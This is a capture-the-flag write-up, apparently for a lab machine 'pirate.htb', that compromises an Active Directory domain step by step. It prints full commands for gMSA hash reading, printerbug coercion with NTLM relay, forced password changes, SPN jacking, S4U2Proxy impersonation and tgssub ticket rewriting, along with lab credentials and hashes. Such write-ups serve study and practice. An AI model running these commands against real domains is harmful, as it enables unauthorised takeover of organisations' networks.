import PasswordProtect from '~/components/PasswordProtect.client';

```
Scope:
10.129.244.95

Creds:
pentest
p3nt3st2025!&
```
# Recon
## Nmap

```bash
sudo nmap -sC -sV -sT -p- -Pn -T5 --min-rate=5000 -vvvv pirate.htb

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2026-03-05 13:41:38Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: pirate.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.pirate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.pirate.htb
| Issuer: commonName=pirate-DC01-CA/domainComponent=pirate
|_ssl-date: 2026-03-05T13:43:07+00:00; +6h59m57s from scanner time.
443/tcp   open  https?        syn-ack
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: pirate.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.pirate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.pirate.htb
| Issuer: commonName=pirate-DC01-CA/domainComponent=pirate
|_ssl-date: 2026-03-05T13:43:07+00:00; +6h59m57s from scanner time.
2179/tcp  open  vmrdp?        syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: pirate.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-03-05T13:43:07+00:00; +6h59m57s from scanner time.
| ssl-cert: Subject: commonName=DC01.pirate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.pirate.htb
| Issuer: commonName=pirate-DC01-CA/domainComponent=pirate
3269/tcp  open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: pirate.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-03-05T13:43:07+00:00; +6h59m57s from scanner time.
| ssl-cert: Subject: commonName=DC01.pirate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.pirate.htb
| Issuer: commonName=pirate-DC01-CA/domainComponent=pirate
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49685/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49686/tcp open  msrpc         syn-ack Microsoft Windows RPC
49688/tcp open  msrpc         syn-ack Microsoft Windows RPC
49689/tcp open  msrpc         syn-ack Microsoft Windows RPC
49914/tcp open  msrpc         syn-ack Microsoft Windows RPC
49940/tcp open  msrpc         syn-ack Microsoft Windows RPC
49964/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 65389/tcp): CLEAN (Timeout)
|   Check 2 (port 57669/tcp): CLEAN (Timeout)
|   Check 3 (port 53723/udp): CLEAN (Timeout)
|   Check 4 (port 21019/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 6h59m56s, deviation: 0s, median: 6h59m56s
| smb2-time: 
|   date: 2026-03-05T13:42:27
|_  start_date: N/A
```

In order to avoid clock skew errors I used the following commands to adjust the time to that of the target:

```bash
sudo timedatectl set-ntp true
sudo ntpdate -u 10.129.244.95
sudo timedatectl set-ntp false 
```



<PasswordProtect client:load>

## NXC

I generated a `krb5.conf` file:



Then started my enumeration:





I also noticed some `gMSA` accounts:



My current user does not have READ permissions on them, so might need to take someone else over that does:



I tried spraying the machine accounts with the `name - name` combo and found a working one!



```
MS01$
ms01
```

## BloodHound

Since I couldn't find anything else I booted up `bloodhound`





>[!danger]
>Be sure to use `bloodhound-python` instead of the CE version for querying here as that one will NOT work:
>


### ReadGMSAPassword

Once all the necessary info has been gathered we can import it and start graphing the data.



I noticed that the *MS01$* machine account was able to read the `gMSA` passwords so let's do that right away and get access via `winrm` with *gmsa_adfs_prod*:



```
gMSA_ADCS_prod$
304106f739822ea2ad8ebe23f802d078

gMSA_ADFS_prod$
8126756fb2e69697bfcb04816e685839
```

# Foothold
## evil-winrm as gMSA_ADFS_prod$



Nothing interesting stood out at first:



I did however find another IP address:



Which turned out to be **WEB01**:



## Pivoting

Time to pivot to **WEB01** and for this I'll be uploading the `agent.exe` binary from `ligolo-ng`:











I `ping` the **WEB01** host to verify that everything works:



### WEB01 enumeration

I started enumerating the host:






### NTLM Relay

We can now use the following commands in order to exploit the `printerbug` coercion vulnerability:

```bash
printerbug pirate.htb/'gMSA_ADFS_prod$'@192.168.100.2 10.10.14.53 -hashes :8126756fb2e69697bfcb04816e685839
impacket-ntlmrelayx -smb2support --no-http-server -t ldap://dc01.pirate.htb --remove-mic --delegate-access
```





```
DMHFOLDE$
W.!wJVYi-;dTG9P
```

### S4U2Proxy



Now we can export this ticket and use it to dump some passwords:



I found a cleartext password for the *a.white* user which appeared to be valid!:

```
a.white
E2nvAOKSz5Xz2MJu
```



Now we're getting somewhere:



We can use this account to `ForceChangePassword` the *a.white_adm* account, which is a member of the **IT** group.

# Privilege Escalation
## ForceChangePassword

I'll start off by changing the password, which can easily be done:

```bash
bloodyAD --host dc01.pirate.htb -d pirate.htb -u a.white -p E2nvAOKSz5Xz2MJu --dc-ip 10.129.244.95 set password a.white_adm 'Password123!'
```



## SPN Jacking 

We can find and remove the SPN for **WEB01** in order to replace it with a malicious one afterwards.

```bash
impacket-findDelegation pirate.htb/a.white_adm:'Password123!'
```



Now remove it:

```bash
addspn -t 'WEB01$' -u 'pirate.htb\a.white_adm' -p 'Password123!' 'dc01.pirate.htb' -r --spn 'http/WEB01.pirate.htb'
```



Now we can add the SPN again:

```bash
addspn -t 'DC01$' -u 'pirate.htb\a.white_adm' -p 'Password123!' 'dc01.pirate.htb' --spn 'http/WEB01.pirate.htb'
```



We can then verify this again:



## S4U2Proxy 

And accordingly impersonate the *Administrator* of **DC01** by abusing `S4U2Proxy`:

```bash
impacket-getST -spn 'http/WEB01.pirate.htb' -impersonate administrator 'pirate.htb/a.white_adm:Password123!' -dc dc01.pirate.htb
```





However we cannot use this yet:



## tgssub

I exploited constrained delegation by impersonating the domain Administrator to obtain a Kerberos service ticket for **HTTP on WEB01**, then modified the ticket’s service field to **CIFS on the domain controller**, allowing me to authenticate to DC01 and execute commands as **NT AUTHORITY\SYSTEM**. This can be done with `tgssub`:

```bash
tgssub -in administrator@http_WEB01.pirate.htb@PIRATE.HTB.ccache -out Administrator.ccache -altservice "cifs/DC01.pirate.htb"
```

